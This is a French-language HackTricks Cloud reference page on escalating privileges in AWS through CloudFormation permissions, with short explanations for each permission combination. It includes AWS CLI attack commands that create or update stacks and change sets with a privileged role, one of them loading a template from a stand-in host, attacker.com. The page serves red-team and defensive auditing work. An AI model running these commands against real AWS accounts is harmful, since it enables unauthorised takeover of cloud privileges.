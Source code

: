 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Pour plus d'informations sur cloudformation, consultez :

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces permissions **peut escalader les privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur son serveur, pour **exécuter des actions sous les permissions d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Dans la page suivante, vous avez un **exemple d'exploitation** avec la permission supplémentaire **`cloudformation:DescribeStacks`** :

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une stack cloudformation existante** pour la mettre à jour et escalader les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM déjà attachés**. Consultez la section précédente pour un exemple d'exploitation (il suffit de ne pas indiquer de rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant avec des permissions pour **passer un rôle et créer & exécuter un ChangeSet** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** tout comme avec CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de la**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilisant les **permissions ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner des permissions `ChangeSet`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc vers les rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est comme la méthode précédente sans passer **les rôles IAM**, donc vous pouvez simplement **abuser de ceux déjà attachés**, il suffit de modifier le paramètre :
```
--change-set-type UPDATE
```
**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces permissions pour créer/mette à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact potentiel :** Privesc aux rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette permission sans la permission passRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact potentiel :** Privesc aux rôles cloudformation attachés.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
